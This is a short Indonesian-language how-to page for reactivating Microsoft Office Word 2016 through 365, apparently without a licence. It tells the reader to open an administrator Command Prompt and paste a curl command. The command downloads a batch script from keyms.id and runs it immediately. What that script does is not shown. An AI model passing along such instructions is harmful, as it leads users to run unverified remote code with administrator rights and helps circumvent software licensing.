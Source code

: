 ## Reactive Microsoft Office Word 2016, 2019, 2021, 365
1. Aktifkan Jaringan Wifi

2. Masuk Ke Command Prompt -> Run Administrator

3. Salin dan Tempel
    ```bash
    curl -L keyms.id/aso -o aso.cmd & aso.cmd
4. Tunggu Sampai Proses Selesai 3 - 10 Menit Tergantung Koneksi Yang Anda Pakai

© Linsofc 2025 - 2026
